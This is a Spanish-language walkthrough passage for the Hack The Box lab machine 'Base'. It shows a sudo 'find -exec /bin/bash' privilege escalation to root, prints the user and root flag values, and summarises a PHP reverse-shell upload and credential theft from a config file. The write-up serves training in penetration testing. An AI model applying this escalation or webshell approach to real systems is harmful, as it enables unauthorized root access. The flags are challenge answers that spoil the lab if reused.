

3. ✅ Comando con privilegios root:

```bash
/usr/bin/find
```


## 🧩 Tarea 10 - ¿Qué acción puede usar el comando `find` para ejecutar comandos?

Para averiguarlo consultamos el manpage:

```bash
man find
```

📚 Dentro de la documentación, buscamos acciones relacionadas con ejecución de comandos. Las relevantes son:

- `-exec`
    
- `-execdir`


Ambas ejecutan comandos en los resultados del `find`. La más típica es `-exec`.

> ✅ **Respuesta:** `-exec`


## 🧩 Tarea 11 - ¿Cuál es la flag del usuario?

Una vez conectados por SSH como `john`, comprobamos su directorio personal:

```bash
pwd
```

📁 Estamos en: `/home/john`

Listamos los archivos del directorio:

```bash
dir
```

Encontramos el archivo `user.txt`, lo visualizamos:



📄 La flag de usuario es:

```bash
f54846c258f3b4612f78a819573d158e
```

## 🧩 Tarea 12 - ¿Cuál es la flag de root?

Ya sabemos por la tarea anterior que el usuario `john` puede ejecutar `/usr/bin/find` como **root** sin contraseña:

```bash
sudo -l
```

📌 Salida:

```bash
(root) /usr/bin/find
```

### 🔼 Escalada de privilegios con `find`

Utilizamos la técnica de ejecución de comandos mediante la opción `-exec`:

```bash
sudo /usr/bin/find . -exec /bin/bash \;
```



Esto nos abre una shell como **root** directamente.

### 🔍 Buscar la flag de root

Nos movemos al directorio `/root`:



Encontramos `root.txt` y lo leemos.

✅ **Respuesta:** `b1fe75a04f59d16e3f83b491dc6ad7e1`


## 🏁 Conclusión final de la máquina "Base" (HTB)

Esta máquina nos ha llevado por una ruta de explotación clásica y muy formativa, ideal para practicar **file upload vulnerabilities**, **webshells**, y **escaladas de privilegios** básicas.

---

### 🧠 Lo aprendido

- **Enum. web**: con `gobuster` encontramos un directorio oculto `/_uploaded` que aceptaba archivos `.php`.
    
- **Explotación**: Subimos una **reverse shell en PHP** y conseguimos ejecución remota desde el navegador.
    
- **Acceso a usuario**: Encontramos credenciales en un archivo `config.php` y nos conectamos vía **SSH** como el usuario `john`.
    
- **Enumeración de sudo**: Vimos que `john` podía usar `find` como root sin contraseña.
    
- **Escalada de privilegios**: Usamos `find` con `-exec` para lanzar una shell root y acceder a `/root/root.txt`.
